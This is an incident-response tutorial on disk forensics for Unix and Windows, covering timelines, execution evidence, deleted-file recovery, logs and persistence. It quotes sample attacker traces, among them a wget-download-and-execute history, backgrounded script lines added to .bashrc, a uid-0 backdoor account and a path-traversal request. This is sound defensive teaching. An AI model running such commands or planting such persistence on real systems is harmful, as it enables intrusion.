


# Disk Analysis

After data has been extracted and measures taken to maintain integrity, we focus on initial event analysis. <br />
Early triage can offer indication of the type of incident investigated (ransomware, insider threat, cryptojacking, etc), based on which we look for obvious IoCs.

At this stage:

- high potential for false positives
- include anything that looks suspicious and rule out later
- analyze system and user activity artifacts, including logs
- narrow down to timeframe of suspicious activity

## Prerequisites

- a unix forensic vm with
  - TSK
  - nice to have but not mandatory
    - UAC
- a windows forensic vm with
  - Timeline Explorer
  - EZ Tools
  - KAPE
  - nice to have but not mandatory
    - [LogFileParser](https://github.com/jschicht/LogFileParser)

## Looking for evil

Attackers leave breadcrumbs everywhere: program installation, execution, file modification, user account usage.<br />
Investigators are looking for anything out of the ordinary. <br />
This implies taking time to learn what normal looks like.<br />

### Timeline analysis

Timeline analysis serves to piece the breadcrumbs together into a coherent record of the intrusion.<br />
Built by the investigator, timelines are a guide to evidence not evidence themselves.<br />
They tell the story of what happened and make a note on the gaps, if any.

Individual logs or artifacts show what happened in isolation, while timelines show how events relate to each other.

Before you begin building a timeline, remember:

- make sure all timestamps are converted to UTC before analysis starts
- multiple timezones in between physical or cloud investigated devices can slow analysis

## Unix artifacts & analysis

### File system metadata

We collect raw timestamp data into a bodyfile, or use the bodyfile generated by UAC.
``` bash
# use fls from TSK
# -r recursive
# -m / display files in time machine format, the string given will be prepended to the filenames as the mounting point
$ sudo fls -r -m / /dev/sda1 > bodyfile.txt
$ ls -lh bodyfile.txt
-rw-rw-r-- 1 sss sss 26M Jun 11 09:34 bodyfile.txt
$ head bodyfile.txt
[..]
0|/var/lib/dpkg/info/samba-libs:amd64.list|552740|r/rrw-r--r--|0|0|8812|1781087381|1780559162|1780559162|1780559162
[..]
# or use the UAC output (the ir_triage profile collects a bodyfile by default)
$ sudo ./uac -p ir_triage /tmp
$ ls -lh /tmp/bodyfile/bodyfile.txt
-rw-r--r-- 1 sss sss 48M Jun 11 10:40 bodyfile.txt
```

The bodyfile contains: `MD5|name|inode|mode_as_string|UID|GID|size|atime|mtime|ctime|crtime`

- `MD5` (0 because fls does not calculate hashes)
- filename with the mount point appended (that we specified with `-m /`)
- inode number
- file type and permissions (d for directory, r for regular file, l symlink, c character device, b block device)
- user ID that owns the file
- group ID that owns the file
- file size in bytes
- atime last access time (unix epoch)
- mtime last content modification time
- ctime last metadata modification time
- crtime creation time (or birth) if the filesystem supports that

We generate a csv timeline with `mactime` using the bodyfile as input.
``` bash
$ mactime -b bodyfile.txt -d > timeline.csv
```

We analyze the csv timeline with Timeline Explorer from EZ Tools.

``` csv
Line	Tag	Timestamp	macb	Meta	File Name	File Size
388074	Unchecked	2026-06-04 10:46:02	m.cb	552740	/var/lib/dpkg/info/samba-libs:amd64.list	8812
[..]
583881	Unchecked	2026-06-10 13:29:41	.a..	552740	/var/lib/dpkg/info/samba-libs:amd64.list	8812
[..]
```

Note the example file shown above has one entry in the `bodyfile` but shows as two entries in the timeline.

That is because `mactime` builds a chronological timeline, and the access time (seen as `.a..` in the macb column) for this file differred from the other three (seen as `m.cb`).

The bodyfile shows unique entries per file, and the timeline shows unique entries per time per file.

### Evidence of execution

``` bash
# the command history for a user shows evidence of previously executed commands
# bash_history is the standard Unix shell command history
# simple text file written when the terminal is closed
# can be easily deleted, though it's absence is an indicator of adversary activity
# history may be suppressed by prefixing commands with a space (if HISTCONTROL=ignorespace)
$ cat .bash_history
wget http://192.168.1.37/notmalware
chmod +x notmalware
./notmalware

# systemd journal can be filtered for entries since the last boot with timestamps in UTC
journalctl --utc -b
Jun 11 10:39:28 sss systemd[1]: Started session-49.scope - Session 49 of User sss.
# filter for a specific executable
# for example every sudo invocation is logged
$ journalctl --utc _EXE=/usr/bin/sudo
Jun 11 11:24:20 sss sudo[312682]:      sss : TTY=pts/0 ; PWD=/home/sss ; USER=root ; COMMAND=./notmalware
Jun 11 11:24:20 sss sudo[312682]: pam_unix(sudo:session): session opened for user root(uid=0) by sss(uid=1000)
Jun 11 11:24:28 sss sudo[312682]: pam_unix(sudo:session): session closed for user root
[..]

# systemd journal shows evidence of execution via cron
$ journalctl --utc -u cron
Jun 11 14:35:02 sss CRON[312769]: pam_unix(cron:session): session closed for user root
Jun 11 14:35:02 sss CRON[312775]: (sss) CMD (~/payload)
Jun 11 14:36:01 sss CRON[312791]: pam_unix(cron:session): session opened for user sss(uid=1000) by sss(uid=0)
Jun 11 14:36:01 sss CRON[312792]: (sss) CMD (~/payload)
Jun 11 14:37:01 sss CRON[312797]: pam_unix(cron:session): session opened for user sss(uid=1000) by sss(uid=0)
Jun 11 14:37:01 sss CRON[312798]: (sss) CMD (~/payload)
[..]

# shell config files execute on login or interactive shell
# check for unexpected additions
$ tail .bash_profile
(/tmp/.hidden/notmalware.sh >/dev/null 2>&1 &)
$ tail .bashrc
(/tmp/.hidden/notmalware.sh >/dev/null 2>&1 &)

```

### Evidence of past file presence

```
# fls -d shows deleted entries still recorded
# -r recursive, -d deleted
# image.dd is a full disk image, so we have to find the partition layout and pass the partition offset to TSK tools
$ mmls image.dd
[..]
GUID Partition Table (EFI)
Offset Sector: 0
Units are in 512-byte sectors
      Slot      Start        End          Length       Description
000:  Meta      0000000000   0000000000   0000000001   Safety Table
001:  -------   0000000000   0000002047   0000002048   Unallocated
002:  Meta      0000000001   0000000001   0000000001   GPT Header
003:  Meta      0000000002   0000000033   0000000032   Partition Table
004:  000       0000002048   0000004095   0000002048
005:  001       0000004096   0041940991   0041936896
006:  -------   0041940992   0041943039   0000002048   Unallocated
$ fls -r -d -o 4096 image.dd
r/r * 662713(realloc):  tmp/.hidden/notmalware.sh
r/r * 662782(realloc):  home/sss/notmalware
[..]
# icat recovers content by inode number
# only works if the data blocks have not been overwritten
$ icat image.dd 662782 > recovered_notmalware

# dpkg.log shows package manager logs with timestamps
# look for packages used for post exploitation that may have been installed and removed
$ grep 'install\|remove' uac/\[root\]/var/log/dpkg.log
2026-06-09 11:43:53 status installed python3-pil:amd64 10.2.0-1ubuntu1.2
# apt history log groups sessions and shows the commandline
$ cat uac/\[root\]/var/log/apt/history.log
Start-Date: 2026-06-11  17:42:29
Commandline: apt install netcat
Requested-By: sss (1000)
Install: netcat:amd64 (1.10-46), netcat-openbsd:amd64 (1.217-3, automatic)
End-Date: 2026-06-11  17:42:31
[..]
```

### Log analysis

- found under /var/log by convention, but can be placed anywhere
- usually simple text files (easy for attackers to edit or remove)
- format varies widely (starts with timestamp, hostname, process name, pid, and the rest is left to the developers)
- collected by UAC with the ir_triage profile

```
# syslog is the primary logging service
# filter for kernel module load events
# look for modules loaded outside of package management or at unusual times
$ grep -i 'module\|insmod\|modprobe' /var/log/syslog
### TODO ADD DIAMORPHINE

# check user logins and system reboots from wtmp
# also btmp records failed logins, but it is not enabled by default
$ last -if uac/\[root\]/var/log/wtmp
sss      pts/2        fe80::a60a:b442: Tue Jun  9 19:42    gone - no logout
sss      pts/0        fe80::a60a:b442: Tue Jun  9 16:47 - 19:36  (02:49)
reboot   system boot  0.0.0.0          Tue Jun  9 15:43   still running
[..]

# check last login per user from lastlog
$ last -if uac/\[root\]/var/log/lastlog
Username         Port     From                             Latest
root             pts/1    192.168.1.15                     Tue Jun 10 16:55:02 +0000 2026
sss              pts/0    fe80::a60a:b442:fc61:8a15%ens33  Thu Jun 11 20:33:24 +0300 2026

# check web server logs
# they often document initial compromise
$ grep -v ' 200 \| 400 ' uac/\[root\]/var/log/apache2/access.log | head
192.168.1.100 - - [10/Jun/2026:16:48:22 +0000] "GET /wp-admin/../../etc/passwd HTTP/1.1" 400 512
192.168.1.100 - - [10/Jun/2026:16:48:31 +0000] "POST /upload.php HTTP/1.1" 200 128

```

### App & user activity artifacts

``` bash
# auth.log shows account authentication patterns
# -a to process  a  binary  file  as  if  it  were  text
$ grep -a 'session opened' uac/\[root\]/var/log/auth.log
2026-06-09T19:45:01.541448+03:00 sss CRON[158067]: pam_unix(cron:session): session opened for user root(uid=0) by root(uid=0)
[..]

# check for new user accounts or accounts with unexpected privileges
$ cat uac/\[root\]/etc/passwd
[..]
tcpsys:x:1001:1001:,,,:/home/tcpsys:/bin/bash
admin:x:0:0::/home/admin:/bin/sh # uid 0 on a non root account is suspicious

# check for recently added SSH authorized keys
# we check the uac artifacts in the home and root directories for recent changes to the authorized keys file
$ find uac/\[root\]/home/ uac/\[root\]/root/ -name 'authorized_keys' -newer uac/\[root\]/var/log/dpkg.log 2>/dev/null
uac/\[root\]/home/sss/.ssh/authorized_keys
# we check the timestamps
$ stat uac/\[root\]/home/sss/.ssh/authorized_keys
  File: uac/\[root\]/home/sss/.ssh/authorized_keys
  Size: 177             Blocks: 8          IO Block: 4096   regular file
Device: 8,2     Inode: 1179709     Links: 1
Access: (0600/-rw-------)  Uid: ( 1000/     sss)   Gid: ( 1000/     sss)
Access: 2026-06-12 10:42:22.651286604 +0300
Modify: 2026-06-12 10:42:14.880365073 +0300
Change: 2026-06-12 10:42:14.880365073 +0300
 Birth: 2026-06-04 13:53:02.801996311 +0300
# we check the contents and find an unexpected key
$ cat uac/\[root\]/home/sss/.ssh/authorized_keys
[..]
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN21TIWOoH2qDkPGZfL8MEdJa7qFGOW7dr60/s9UZhH2 admin
```


## Windows artifacts & analysis

### $MFT

The most important artifact showing filesystem metadata is the `$MFT` table.

We extracted the $MFT table with KAPE, using the `MFTECmd.exe` module to parse it into a csv.

``` powershell
PS C:\Users\test1\Documents\KAPE> .\kape.exe --tsource C: --tdest C:\Users\test1\Downloads\kapemfttout --target '$MFT' --module 'MFTECmd_$MFT' --mdest C:\Users\test1\Downloads\kapemftmout
KAPE version 1.3.0.2, Author: Eric Zimmerman, Contact: https://www.kroll.com/kape (kape@kroll.com)

KAPE directory: C:\Users\test1\Documents\KAPE
Command line:   --tsource C: --tdest C:\Users\test1\Downloads\kapemfttout --target $MFT --module MFTECmd_$MFT --mdest C:\Users\test1\Downloads\kapemftmout

System info: Machine name: TEST, 64-bit: True, User: test1 OS: Windows10 (10.0.26200)

Using Target operations
  Creating target destination directory C:\Users\test1\Downloads\kapemfttout
Found 1 targets. Expanding targets to file list...
Found 1 file in 0.032 seconds. Beginning copy...
  Deferring C:\$MFT due to UnauthorizedAccessException...
Deferred file count: 1. Copying locked files...
  Copied deferred file C:\$MFT to C:\Users\test1\Downloads\kapemfttout\C\$MFT. Hashing source file...

Copied 1 out of 1 files in 36.2443 seconds. See C:\Users\test1\Downloads\kapemfttout\2026-06-11T08_23_28_4665615_CopyLog.csv for copy details

Using Module operations
  Setting --msource to C:\Users\test1\Downloads\kapemfttout since --msource was not provided
  Creating module destination directory C:\Users\test1\Downloads\kapemftmout
    Found processor Executable: MFTECmd.exe, Cmd line: -f %sourceFile% --csv %destinationDirectory%, Export: csv, Append: False!
Discovered 1 processor to run
Executing modules with file masks...
  Running MFTECmd.exe: -f "C:\Users\test1\Downloads\kapemfttout\C\$MFT" --csv C:\Users\test1\Downloads\kapemftmout\FileSystem
Executing remaining modules...
Executed 1 processor in 46.8196 seconds

Total execution time: 83.0793 seconds
```

We visualize it with Timeline Explorer from EZ Tools.
``` csv
Line	Tag	Entry Number	Sequence Number	Parent Entry Number	Parent Sequence Number	In Use	Parent Path	File Name	Extension	Is Directory	Has Ads	Is Ads	File Size	Created0x10	Created0x30	Last Modified0x10	Last Modified0x30	Last Record Change0x10	Last Record Change0x30	Last Access0x10	Last Access0x30	Zone Id Contents	Reparse Target	Reference Count	SI<FN	u Sec Zeros	Copied
647	    Unchecked	647	    5	139442	8	  Checked	.\Windows\Prefetch	    PAYLOAD.EXE-C2669AB8.pf	.pf	  Unchecked	Unchecked	Unchecked	7125	  2026-06-10 16:38:49		2026-06-10 16:52:09	2026-06-10 16:38:49	2026-06-11 05:32:46	2026-06-10 16:38:49	2026-06-11 05:52:43	2026-06-10 16:38:49			1	Unchecked	Unchecked	Unchecked
245199	Unchecked	141215	6	171279	1	  Checked	.\Users\test1\Downloads	payload.exe	           .exe	  Unchecked	  Checked	Unchecked	256000	2026-04-19 18:46:15	  2026-06-10 17:07:29	2026-04-19 18:46:15	2026-06-10 17:07:29	2026-06-10 17:07:29	2026-06-10 17:07:29	2026-06-11 06:12:38	2026-06-10 17:07:29			1	Checked	Checked	Unchecked
```



### Command history

```
# cmd history

# powershell history

```

### Prefetch files

Prefetch files keep a record of the first and last run time of an executable, and a count of how many times it ran.

We parse prefetch files and output to csv.

We analyze the csv with Timeline Explorer from EZ Tools.

### ShimCache (AppCompatCache)

### AmCache

### Logs
- security logs
  - eventID 4624 and 4634 - logon and logoff
  - eventID 4625 - failed logon
  - eventID 4672 - privilege escalation
  - eventID 4688 - new process created
- application logs
- system logs
- sysmon event logs (optional, will be integrated in Windows 11 and Server 2025, but off by default)
  - eventID 1 - process creation
  - eventID 8 - CreateRemoteThread (indicator of process injection)
  - eventID 10 - process access (indicator of post-exploitation, credential dumping, process injection)

### Other Windows artifacts

- USN Journal, Windows Search Index
- SRUM
- Registry (UserAssist, RunMRU, RecentDocs, OpenSaveMRU, ShellBags)

### $Logfile

The `$LogFile` keeps a record of changes to the NTFS volume (creations, modifications, renaming, and deletions), so in the event of a crash it can roll back to the previous state.

Though it doesn't keep timestamps for each event, it uses Log Sequence Numbers to help in tracking events over time.

It can be analyzed with `LogFileParser.exe`.

If both the `$MFT` and the `$LogFile` are passed to it, the parser can reconstruct full paths.
Another way is to point the parser to a disk image and it will extract everything it needs.

``` powershell
PS C:\Users\sss\> .\LogFileParser.exe /LogFileFile:'C:\Users\sss\$LogFile' /OutputFormat:csv /Separator:','/OutputPath:'C:\Users\sss\'
NTFS $LogFile Parser 2.0.0.53
Timestamps presented in UTC: 0.00
Output directory: C:\Users\sss\LogFile_2026-06-11_13-51-30
NTFS $LogFile Parser 2.0.0.53
Using $LogFile: C:\Users\sss\$LogFile
Unicode: 0
Using precision separator: .
LSNs for verbose output:
LSN Validation level: 0.1 (10 %)
Timestamps presented in UTC: 0.00
Sectors per cluster: 8
DataRun reconstruct configuration: 0
Rebuild broken header for transactions found in slack: False
32-bit: False
DoExtractResidentUpdates: 0
FragmentMode: 0
SkipFixups: 0
BrokenLogFile: 0
Using DateTime format: 6
Using timestamp precision: 3
------------------- END CONFIGURATION -----------------------
[..]
```

We analyze the csv output with Timeline Explorer from EZ Tools.

Note that by default, the separator is `|` so a comma `,` must be specified in order for the Timeline Explorer to parse it correctly.
Alternatively, it can be opened with LibreOffice.

While the `$LogFile` is not the first place to look, it can be useful if we're tracking or recovering deleted files, to reconstruct the incident timeline.

## Browser artifacts

- browsing history, search, cookies, credentials, bookmarks, autofill
  - Firefox or Chromium on Unix
  - Chrome or Firefox on Windows
  - Safari on macOS

### Persistence

- rootkits (Loadable Kernel Modules)
- scheduled tasks
- service start-up scripts
- account modification (new admin accounts, new ssh authorized_keys, enhanced `sudo` privileges uid 0)
- Registry (Run/RunOnce Keys, Windows Services, Winlogon, Scheduled Tasks)

## [Autopsy](https://www.autopsy.com/download/)

- start a case
- select data source (evidence already acquired)
- analyze artifacts (installed programs, metadata, recent documents, run programs, shellbags, web accounts, cookies, history)



## [bulk_extractor](https://github.com/simsong/bulk_extractor)

- scans and extracts structured information (ex. emails, CCN, JPEGs, JSON snippets) without parsing file system structures

## Summary

- high volume data, high potential for false positives
- learn what normal looks like, look for outliers
- convert all timestamps to UTC
- seek evidence of execution, past file existence
- analyze logs, user activity artifacts

## Drills

### Challenge 1

Description

### Challenge 2

Description

### Challenge 3

Description

## Further reading

[+] [Windows Registry Forensics](https://www.cybertriage.com/blog/windows-registry-forensics-cheat-sheet-2025/)<br />
[+] [Windows Event IDs](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/) <br />
[+] [Body file](https://wiki.sleuthkit.org/index.php?title=Body_file)<br />
[+] [$LogFile](https://forensafe.com/blogs/windowslogfile.html)<br />
[+] [Forensic Timelines](https://www.thedfirspot.com/post/from-chaos-to-chronology-the-power-of-forensic-timelines)<br />
[+] [You don't know jack about bash history](https://www.youtube.com/watch?v=wv1xqOV2RyE)<br />
